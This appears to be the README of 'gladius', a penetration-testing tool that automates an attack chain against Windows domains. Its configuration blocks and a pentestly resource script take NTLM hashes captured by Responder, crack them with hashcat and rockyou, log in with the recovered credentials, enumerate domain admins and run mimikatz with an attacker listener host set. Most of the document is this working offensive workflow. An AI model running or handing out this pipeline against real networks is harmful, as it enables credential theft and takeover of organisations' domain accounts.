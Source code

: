 ## Responder to Credentials

### Install
```
pip install watchdog
git clone https://git.praetorianlabs.com/thebarbershopper/gladius
```

### Configuration
First things first, have to set our configuration:
```
[Project]
project_path = testing2

[Responder]
hashcat = /root/tools/hashcat/hashcat-cli64.bin
wordlist = /root/tools/hashcat/rockyou.txt
ruleset = /root/tools/hob064.rule
watch_path = /opt/responder/logs

[Pentestly]
nmap = /tmp/gladius.xml

[Recon-ng]
path = /opt/recon-ng/recon-ng

[Mimikatz]
lhost = 10.10.11.156
```

### Start
After setting up configuration, simple start.
```
python2 start.py
```

```
[root@Praetorian-IPTD-4 auto-pentest]# python2 start.py --help
usage: start.py [-h] [-v]

optional arguments:
  -h, --help     show this help message and exit
  -v, --verbose  Increased output verbosity
```

### Start Responder and watch cracked credentials fly by..

### Output

![exmaple.png](example.png)

### Workings

#### Responder

Watches responder log for `*NTLM*txt` files. For each file found, parses output, creates a temp file containing the new hashes, and passes this to hashcat with the correct hash type

```
To watch for NTLM hashes from hashdump, simply create a file with NTLM hashes from hashdump and drop a file with `hashdump` in its name in the Responder `watch_path` directory.
Note: Will have to manually examine output in `./PROJECT/responderhander_out/*` to check for results from `hashdump` cracking.
```

#### Credentials

Watches for output from `hashcat` and exports files with the following format:

```
Domain Username Password
```

#### Pentestly

Watches for sanitized hashcat output and passes credentials to `pentestly` via the following resource script.

```
workspaces add gladius
load nmap
set filename /tmp/gladius.xml
run

load login
set domain DOMAIN
set username USERNAME
set password PASSWORD
run

load get_domain_admin_names
run

load mimikatz
set lhost LHOST
run

load reporting/csv
set filename OUTFILE
set table pentestly_creds
run
```

#### Admin

Watches for output from Pentestly and parses the found credentials for `Local Admin` and new credentials from `Mimikatz`

#### Run Tests

```
python -m unittest discover test
```

```
pip install coverage
coverage run -m unittest discover test
```

### Example module

```
class CredsHandler(GladiusHandler):

    patterns = ['*']

    def process(self, event):
        with open(event.src_path, 'r') as f:
            data = f.read().split('\n')

        # Perform work on data
```


Add yourself to the handlers list
```
handlers = [(ResponderHandler, config.get('Responder', 'watch_path')),
            (CredsHandler, ResponderHandler().outpath),
            (PentestlyHandler, CredsHandler().outpath)]
```
